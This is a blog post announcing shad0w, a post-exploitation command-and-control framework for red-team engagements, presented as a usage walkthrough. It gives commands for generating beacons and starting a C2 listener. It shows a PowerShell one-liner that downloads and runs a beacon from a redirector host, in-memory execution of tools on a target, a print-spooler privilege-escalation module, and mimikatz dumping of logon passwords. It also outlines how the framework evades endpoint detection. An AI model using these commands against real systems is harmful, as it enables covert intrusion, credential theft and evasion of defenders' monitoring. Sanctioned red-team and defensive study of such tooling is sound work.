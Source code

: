 ```yaml
---
title: "shad0w"
date: "2020-06-03"
categories: 
  - "detection"
  - "exploitation"
author: "bats3c"
excerpt: "Post exploitation is large part of a red team engagement. While many organisations begin to mature and start to deploy a range of sophisticated Endpoint Detection &amp; Response solutions (EDR) onto their networks, it requires us, as attackers to also mature.  We need to upgrade our arsenal to give us the capabilities to successfully operate on their networks. That is why today, I am releasing shad0w. shad0w is a post exploitation framework which is designed to operate covertly on such networks, providing the operator with much greater control over their engagements. Over future blog posts I will go into greater detail on the intricacies of how shad0w works. This blog post will, therefore, serve as an introduction into the usage and features that shad0w has to offer."
---
```


**[This project can be found on github](https://github.com/bats3c/shad0w)**

Post exploitation is large part of a red team engagement. While many organisations begin to mature and start to deploy a range of sophisticated Endpoint Detection & Response solutions (EDR) onto their networks, it requires us, as attackers to also mature. We need to upgrade our arsenal to give us the capabilities to successfully operate on their networks. That is why today, I am releasing shad0w.

shad0w is a post exploitation framework which is designed to operate covertly on such networks, providing the operator with much greater control over their engagements. Over future blog posts I will go into greater detail on the intricacies of how shad0w works. This blog post will, therefore, serve as an introduction into the usage and features that shad0w has to offer.

## Overview & Install

shad0w is designed to be run inside docker, this is to make life easier for the operator as it has some very specific dependencies which are required for it to work correctly. Installation is very simple, just requiring the two commands shown below.

```
$ git clone https://github.com/bats3c/shad0w.git && cd shad0w
$ sudo ./shad0w install
```

## Getting a foothold

shad0w implants are called beacons. There are two types of beacons: secure and insecure. Secure beacons are designed to operate in environments where it is vital to remain undetected whereas insecure beacons are for environments where the security is much more relaxed.

Currently there are 3 different formats for beacons: exe, shellcode and powershell. The shellcode and powershell formats allow for shad0w to be used in completely fileless attacks allowing everything to be run entirely inside memory.

To generate such a payload you can use the command shown below, this will place the payload of a statically linked secure beacon in `beacon.ps1`

```
$ shad0w beacon -p x64/windows/secure/static -H your.redirector -f psh -o beacon.ps1
```

The next steps would be to start the C2 server. When starting the C2 it will need to be given the address that the beacon will connect to. So if you are using redirectors it would not be the address of the C2 but rather the address of your first redirector. The command for starting a C2 instance for the beacons to callback to is shown below

```
$ shad0w listen -e your.redirector
```

A feature which could also be useful is the C2 servers ability to live proxy and essentially clone a website. This feature can be used with the `--mirror` or `-m` flag. This example would mirror the site https://www.bbc.com/ to the address of your redirector https://your.redirector/

```
$ shad0w listen -e your.redirector -m "https://www.bbc.com/"
```

So then when you visit your redirector you are given https://www.bbc.com/. This will also proxy any links you click or files you download which are on the site you have mirrored.

![](images/mirror2.jpg)

![](images/mirror3-1024x557.jpg)

Now that your C2 is up and running you can execute the beacon. I will use an example of how you can do so with powershell but due to the beacon being in shellcode form, you can quite easily execute the beacon from many other languages.

```
PS> IEX (New-Object System.Net.WebClient).DownloadString("https://another.redirector/beacon.ps1")
```

And we get a callback

![](images/catch_session_resize.gif)

## Enumeration

Now that we have a active session on the machine we can interact with it via the `beacons` command.

```
shad0w ≫ beacons -i 1
```

shad0w has some useful commands that can be used to explore and interact with the local file system e.g `ls cd pwd rm cat mkdir` while also letting you `upload` and `download` files.

One of the most useful features of shad0w is that it allows you to execute any .NET assembly, EXE, DLL, VBS, JS or XSL file in memory on the target without anything touching disk. For example to execute the .NET assembly `seatbelt.exe` in memory you can use the `execute` command, giving the file name with the `-f` flag and any arguments with the `-p` flag

```
shad0w ≫ execute -f seatbelt.exe -p all
```

All the output from the command will be sent back to your terminal window

![](images/execute_resize.gif)

## Privilege Escalation

I have designed shad0w to be very modular, allowing operators to create and use their own modules. I have kept this philosophy in mind when making the `elevate` command. I designed it to help elevate the current beacons privileges by using common privilege escalation techniques & exploits all of which are stored in easy to use modules, allowing an operator to create new or build on existing modules easily.

To list the available privesc modules for the current session you can use the `--list` or `-l` flag

```
shad0w ≫ elevate --list
```

Modules come in two different modes, check and exploit. To run a modules in check mode use the `--check` or `-c` flags and to use a module in exploit mode use the `--use` or `-u` flags.

```
shad0w ≫ elevate --check system_printspoofer
shad0w ≫ elevate --use system_printspoofer
```

If an exploit is successful you will receive a new session from a beacon with elevate privileges

![](images/elevate_resize.gif)

## Modules

As I previously said, shad0w is designed to be very modular making the creation of new modules not much of a challenge. To showcase this I've added a mimikatz module. It will be executed inside memory like any module you decide to run but it should never be run over a secure beacon. This is because by design mimikatz is not very operationally secure so any half decent EDR should catch it very quickly. It is very much a welcome addition to the insecure beacons though.

This module can be used with the `mimikatz` command.

```
shad0w ≫ mimikatz -x sekurlsa::logonpasswords
```

Any other mimikatz commands can also by run by using the `-x` flag.

![](images/mimikatz_resize.gif)

## Defenses

In future blog posts I will be going into a lot more detail into how these defenses work in the secure beacon - but here's a quick overview.

Currently shad0w uses 3 main defences:

- Dynamic in memory code execution
- Directly using syscalls
- Anti DLL injection

### Dynamic in memory code execution

This is achieved by safely hijacking alertable threads in a running processes and injecting the modules directly into them. This can help to avoid Sysmon's event ID 8, which can be used to detect process injection.

### Directly using syscalls

By directly using native windows syscalls, shad0w is able to avoid any userland API hooks placed by EDR solutions. This will greatly reduce their ability to monitor shad0w.

### Anti DLL injection

The main method EDR solutions use to hook and monitor programs is by injecting a DLL into running processes allowing them to watch the inner workings of a program. This is currently combated by two methods: enforcing that only Microsoft signed DLLs are allowed into child processes (not many EDR DLLs are signed by Microsoft) and also by maintaining a whitelist of DLLs that are allowed into processes and blocking all others. This ensures that even if a DLL is signed by Microsoft it will still not be able to enter any of the processes.

## Stay Up To Date

This is a constantly evolving project under active development. There are lots of exciting new features going to be added over the coming weeks so make sure you stay up to date with the lastest changes on this project's [GitHub](https://github.com/bats3c/shad0w/).
